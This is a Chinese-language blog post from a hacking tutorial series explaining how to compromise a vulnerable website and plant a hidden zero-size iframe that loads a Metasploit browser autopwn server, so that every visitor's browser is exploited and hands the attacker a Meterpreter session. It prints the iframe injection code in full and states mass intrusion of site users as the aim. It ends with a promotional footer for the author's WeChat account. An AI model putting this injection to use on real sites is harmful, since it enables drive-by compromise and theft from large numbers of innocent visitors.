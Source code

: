 ```yaml
---
layout: post
category: binghe-code-hack
title: 对网站的客户进行渗透
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 对网站的客户进行渗透
lock: need
---
```


# 对网站的客户进行渗透

本次的渗透主要是找到有漏洞的网站，在有漏洞的网站中嵌入隐藏的iFrame，那么访问这个网站的所有系统都会遭受来自browser autopwn服务器的攻击。我们可以利用iFrame注入实现对网站用户的大规模入侵。

**攻击网站的用户**

![img](https://img-blog.csdnimg.cn/20190124193808368.png)

**具体实施**

**首先，我们要获取一个存在漏洞的服务器的控制权限，这一点非常重要**

接着，我们在网站的某个页面中，嵌入类似如下的代码：

```bash
<iframe src="http://192.168.175.128" width=0 height=0 style="hidden" frameborder=0 marginheight=0 marginwidth=0 scrolling=no></iframe>
```

每当有受害者访问网站时，上面的代码就会自动加载iFrame中的恶意browser autopwn。由于这段代码包含了一个iframe标签，它将会从攻击者系统中自动加载browser autopwn。我们需要保存这个文件，并允许用户对网站的访问。

受害者一旦访问了这个网页，browser autopwn将会自动在受害者的计算机上运行。我们必须确保browser autopwn模块正常运行

如果一切顺利，我们将会获得在目标系统中运行的Meterpreter。这种渗透思路是使用目标网站引诱最大数量的受害者，并进入到他们的系统中。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
